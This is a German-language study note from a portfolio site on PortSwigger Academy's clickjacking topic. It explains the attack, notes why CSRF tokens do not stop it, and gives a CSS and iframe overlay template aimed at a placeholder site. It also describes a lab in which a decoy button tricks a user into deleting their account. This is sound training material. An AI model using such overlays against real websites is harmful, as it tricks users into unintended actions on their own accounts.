

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/Clickjacking/1. Was ist Clickjacking/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Was ist Clickjacking
Clickjacking ist ein UI-basierter Angriff, bei dem ein Nutzer dazu gebracht wird, auf interaktive Inhalte einer versteckten Website zu klicken, während er glaubt, auf sichtbare Inhalte einer Köder-Seite zu klicken.
Technisch gesehen wird dabei eine unsichtbare, aber klickbare Seite in einem iframe in die Köderseite eingebettet. Dieses iframe liegt über den erwarteten Inhalten der Seite.
Der Angriff unterscheidet sich von CSRF, weil beim Clickjacking der Nutzer aktiv klickt.

**Warum CSRF-Tokens nicht helfen**
CSRF-Schutz arbeitet oft mit CSRF-Tokens. Bei Clickjacking ist die Zielsitzung aber echt - Die Inhalte werden von der legitimen Webseite geladen und Anfragen laufen on-domain

**Wie baut man einen basic Clickjacking Angriff**
Clickjacking bneutzt CSS um mehere Layer zu erstellen und manipulieren.

```css
<head>
	<style>
			#target_website { 
				position:relative;
				width:128px;
				height:128px;
				opacity:0.00001;
				z-index:2; 
				} 
				#decoy_website { 
				position:absolute; 
				width:300px; 
				height:400px; 
				z-index:1; 
				} 
	</style> 
</head> ... 
<body> 
	<div id="decoy_website"> 
	...decoy web content here... 
	</div> 
	<iframe id="target_website" src="https://vulnerable-website.com"> 
	</iframe> 
</body>
```

## Lab: Basic clickjacking with CSRF token protection
Ziel: Wir sollen einen User dazu bringen seinen Account zu deleten - Wir bauen also eine Baitseite und binden die Target-Seite in einen Iframe wie folgt - Wichtig ist nur, dass der Click Me button mit CSS richtig positioniert wird.

![[Clickjacking_1.png]]

Das sieht dann wie folgt aus ->. User hat nur ein Click Me drübergelegt bekommen, aber die Session ist trotzdem valide zur Target-Seite weil es in unserem iframe eingebettet ist.
![[Clickjacking_2.png]]
